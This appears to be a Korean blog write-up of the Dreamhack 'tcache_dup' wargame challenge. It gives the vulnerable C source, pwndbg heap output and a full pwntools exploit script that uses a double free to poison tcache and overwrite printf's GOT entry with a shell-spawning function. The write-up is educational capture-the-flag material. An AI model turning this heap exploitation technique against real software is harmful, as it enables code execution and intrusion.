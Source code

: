 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN tcache_dup"
excerpt: "드림핵 포너블 tcache_dup 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-02-26 19:00
---
```


드림핵 tcache_dup 문제풀이다. 해당 문제 페이지를 보면 다음과 같은 tcache_dup 취약점에 대한 설명이 나와있다. [https://learn.dreamhack.io/16#82](https://learn.dreamhack.io/16#82)

tcache는 더블프리 버그같은 취약점을 검증하지 않아 여러 bin에서의 공격이 쉬운편이다. tcache dup 취약점은 double free 버그를 이용하여 힙이 할당될 때 같은 공간에 두번 할당 할 수 있다. 또한 값을 쓸 수 있다면 이 영역의 값을 변조하는 것도 가능하다. 

이 바이너리의 경우 printf 함수의 got영역에 get_shell()함수의 주소를 입력해 printf가 실행되면 쉘 획득이 가능하게 문제를 풀었다.

해당 바이너리의 소스코드는 다음과 같다.

```c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if(cnt > 10) {
        return -1; 
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if(!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if(idx > 10) {
        return -1; 
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while(1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch(idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```

64비트 환경에서 got값을 덮을 예정이기에 1번을 입력해 8바이트 메모리를 할당 받는다. 할당받은 메모리의 포인터는 ptr배열에 저장되어 0번은 우리가 할당받은 8바이트 메모리를 가리킨다. 이후 0번 포인터를 2번 메뉴를 통해 2번 free한다. 이후 tcache 정보를 보면 다음과 같다.

```c
pwndbg> tcache
{
  counts = "\002", '\000' <repeats 62 times>,
  entries = {0x1114260, 0x0 <repeats 63 times>},
}
```
tcache_entry에 다음에 할당될 힙 주소인 0x1114260가 있고 이는 2번 free한 주소이다. 이후 1번을 통해서 8바이트를 할당한 후 데이터에 printf got를 넣는다. double free가 일어나 다음에 할당될 주소가 printf got가 들어갈 것이다 pwndbg의 bins 명령을 통해 tcache bins 정보를 불어오면 다음과 같다.

```c
pwndbg> bins
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

tcachebins
0x20 [  1]: 0x13b5260 —▸ 0x601038 (printf@got[plt]) ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

프로세스를 끝낸 뒤 다시 실행해 힙 주소는 다르지만 tcache에 예약된 청크를 보면 원래 할당된 메모리 뒤로 printf got가 할당된 것을 볼 수 있다. 따라서 이후 8바이트를 두번 할당 받을 것인데, 첫번째는 0x13b5260 주소의 메모리 위치가, 두번째는 printf got메모리 위치가 할당 될 것이다.

따라서 1번을 통해 8바이트 할당 후 임의 데이터를 입력한 뒤 또 1번을 통해 8바이트를 할당받아 get_shell() 함수 주소를 넣으면 printf got에 get_shell() 함수 주소가 쓰여 printf가 호출될때 쉘을 획득할 수 있다.

익스플로잇 코드는 다음과 같다.
```python
from pwn import *
context.update(arch='amd64', os='linux')

#p = remote("host3.dreamhack.games", 20376);
p = process("./tcache_dup", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_spirit")
libc=ELF('./libc-2.27.so')

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendafter(b"Data: ", b"A"*8)

p.sendlineafter("> ", b"2")
p.sendlineafter(b"idx: ", b"0")
p.sendlineafter("> ", b"2")
p.sendlineafter(b"idx: ", b"0")

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendafter(b"Data: ", p64(0x601038)) #printf got

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendlineafter(b"Data: ", b"A"*8)


p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendlineafter(b"Data: ", p64(0x400ab0)) #get_shell()

p.interactive()
```